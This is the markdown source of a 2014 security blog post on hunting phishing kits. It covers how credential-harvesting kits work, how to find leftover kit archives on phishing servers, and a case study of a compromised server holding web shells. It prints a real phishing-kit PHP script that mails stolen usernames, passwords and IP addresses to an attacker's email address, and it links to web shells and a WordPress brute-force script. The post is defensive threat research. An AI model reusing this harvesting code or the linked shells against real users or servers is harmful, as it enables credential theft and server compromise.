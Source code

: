 ```yaml
---
layout: post
title: "How to Hunt Down Phishing Kits"
date: 2014-07-30 22:12
comments: true
categories: phishing, phishing kits
---
```

<img src="{{root_url}}/images/headers/phishing_kit.png"/>
### Introduction
Sites like [phishtank](http://www.phishtank.com/phish_archive.php) and [clean-mx](http://support.clean-mx.com/clean-mx/phishing.php) act as crowdsourced phishing detection and validation. By knowing how to look, you can consistently find [interesting information](http://jordan-wright.github.io/blog/2014/04/04/a-look-at-comment-spam-generator-scripts/) about how attackers work, and the tools they use to conduct phishing campaigns. This post will give an example of how *phishing kits* are used, how to find them, as well as show a case study into other tools attackers use to maintain access to compromised servers.
<!-- more -->
### How Phishing Kits Work
To perform a phishing attack, attackers commonly employ prebuilt *phishing kits*. These kits come as a zip archive containing the HTML source code of the site they are spoofing, as well as accompanying PHP scripts that capture and process the phished credentials. Once credentials are submitted from a victim, they are passed to a script that looks similar to this (real) example:

``` php
<?php
session_start();
if(!isset($_SESSION['username']) || $_SESSION['username'] == "" || !isset($_SESSION['password']) || $_SESSION['password'] == ""){
        header("Location:file_doc.php");
        exit;
}
session_destroy();
$username = $_SESSION['username'];
$password = $_SESSION['password'];

$ip = getenv("REMOTE_ADDR");
$country = visitor_country();
$message .= "-------Moded by Ghost Wir3 ----------\n";
$message .= "Username: ".$username."\n";
$message .= "Password : ".$password."\n";
$message .= "IP: ".$ip."\n";
$message .= "Country: ".$country."\n";
$recipient = "[redacted]@gmail.com";
$subject = "Ghost Wir3 - ".$country;
$headers = "From:  Ghost Wir3 <no_reply@mail.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";

$arr = country_sort();
foreach ($arr as $recipient)
{
        mail($recipient,$subject,$message,$headers);
}
?>
```
In this example, to reuse the phishing kit, an attacker simply needs to change the ```$recipient``` variable to point to their address. In addition to this, if we as defenders are able to pull this PHP code, we can quickly identify the threat actor (in this case, [redacted]@gmail.com).

### How to Find Phishing Kits
We've seen that these kits generally require the credentials to be processed by server-side code. Unless there is a misconfiguration on the server, we will not be able to view this code, only that credentials are being passed to it.

However, with that being said, *many attackers are **lazy***. I've seen from experience that the original zip file containing the phishing kit is often left on the server, and can be downloaded to reveal the server-side source code. Additionally, the directories hosting the phishing kits often have indexing enabled, making it easier for us to see the files in the directory. This same technique has also [been used previously by researchers](https://www.usenix.org/legacy/events/woot08/tech/full_papers/cova/cova.pdf) with success.

<img src="{{root_url}}/images/blog/phish_kits/directory_index.png"/>

Knowing this, we can send requests for common archive extensions automatically in the hopes of finding the original phishing kits. These extensions include things such as .zip, .tar, .tar.gz, and .rar. For example, if the URL found by phishtank or clean-mx is http://x.x.x.x/apple/index.php, we could send requests for http://x.x.x.x/apple.zip with success in many cases.

In some cases, finding the original phishing kit can reveal even more information about the tools and techniques used by attackers. Here's an example of one of those cases.

### A Look into a Compromised Website
While performing random checks on many of the sites listed on phishtank and clean-mx, I came across one site that had a phishing kit located in the /phpmyadmin directory. When checking the files in the phishing kit, I found reference to a c100.php web shell. Sure enough, this file was still in place on the server:

<img src="{{root_url}}/images/blog/phish_kits/c100.png" />

PHP backdoors provide substantial access to attackers, facilitating further attacks and control over the compromised server. The c100.php and c99.php backdoors are among the most popular backdoors used by attackers. Through some Googling, we can see that there are **tons** of servers that are compromised using [these](https://www.google.com/search?q=inurl%3A%22c99.php%22%22AND+filetype%3Aphp+%22!C99Shell%22+AND+%22Software%22) [shells](https://www.google.com/search?q=inurl%3A%22c100.php%22%22AND+filetype%3Aphp+%22%21C100%22+AND+%22Software%22).

This shell revealed additional scripts (and other webshells) used by the attacker, including (but certainly not limited to!) the following:

*  [valider.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-valider-php) - The credential caching script
*  [wpbrute.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-wpbrute-php) - A Wordpress brute forcing script
*  [wso.php](https://gist.github.com/jordan-wright/966cea37b8c01c360a2a#file-wso-php) - Another web shell

### Fellow Phish Hunters
In the process of pulling down additional scripts used by the attacker, I ran across the site access logs. Looking through this log, I could see the details of what files the attacker was accessing on the server, as well as determine that these files were in place as early as July 27, 2014. In addition to this, I found the following snippet:

``` text
[29/Jul/2014:02:59:44 +0100] "GET /phpmyadmin/tardis.zip HTTP/1.1" 404 428 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:44 +0100] "GET /phpmyadmin/paypal/tardis.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/paypal.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/wellsfargo.zip HTTP/1.1" 404 439 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/chase.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/boa.zip HTTP/1.1" 404 432 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/update.zip HTTP/1.1" 404 435 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/pp.zip HTTP/1.1" 404 431 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/wells.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:45 +0100] "GET /phpmyadmin/paypal/remax.zip HTTP/1.1" 404 434 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:46 +0100] "GET /phpmyadmin/paypal/paypal.com.zip HTTP/1.1" 404 439 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:46 +0100] "GET /phpmyadmin/paypal/us.zip HTTP/1.1" 404 431 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:47 +0100] "GET /phpmyadmin/paypal/www.paypal.com.zip HTTP/1.1" 404 443 "-" "Java/1.7.0_45"
[29/Jul/2014:02:59:47 +0100] "GET /phpmyadmin/paypal/bankofamerica.com.zip HTTP/1.1" 404 446 "-" "Java/1.7.0_45"
```

We can see that someone has a Java bot that is performing the same technique I described above, by automatically sending requests for common phishing kits. In fact, this and another bot submitted a **substantial** number of requests for common files to be found on phishing kits. I'll likely parse these out and make another blog post with the full list for those interested.

### Conclusion
Hopefully this post not only shows a few of the interesting pieces of information we can find when investigating servers used for phishing campaigns, but also that there is still an incredible amount of work to be done in identifying threat actors behind phishing campaigns. As always, let me know if you have any questions or comments below!

-Jordan ([@jw_sec](http://twitter.com/jw_sec))
